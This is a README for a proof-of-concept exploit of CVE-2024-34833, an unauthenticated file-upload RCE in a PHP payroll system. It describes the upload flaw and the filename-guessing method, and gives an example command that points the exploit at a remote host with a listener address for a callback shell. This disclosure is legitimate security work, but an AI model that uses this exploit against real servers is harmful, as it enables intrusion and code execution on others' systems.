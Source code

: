 # CVE-2024-34833 Payroll Management System RCE (Unauthenticated) PoC

![](./payroll-cover.jpg)

RCE via file upload for https://www.sourcecodester.com/php/14475/payroll-management-system-using-phpmysql-source-code.html. The filenames have timestamp prepended with a minute accuracy. The script tries to guess the filename using the timestamp of the current, previous and next minute.

## Vulnerability description
Payroll Management System v1.0 allows users to upload images via the "save_settings" page. An unauthenticated attacker can leverage this functionality to upload a malicious PHP file instead. The uploaded files are stored in a publicly accessible folder and have a timestamp with minute precision appended to their filenames, which can be easily calculated. Successful exploitation of this vulnerability results in the ability to execute arbitrary code as the user running the web server.
## Example usage
```commandline
python3 exploit.py -rhost somewebsite.com -rport 443 -lhost 192.168.22.23 -lport 443 -https
```

## Example video
![](./example.gif)

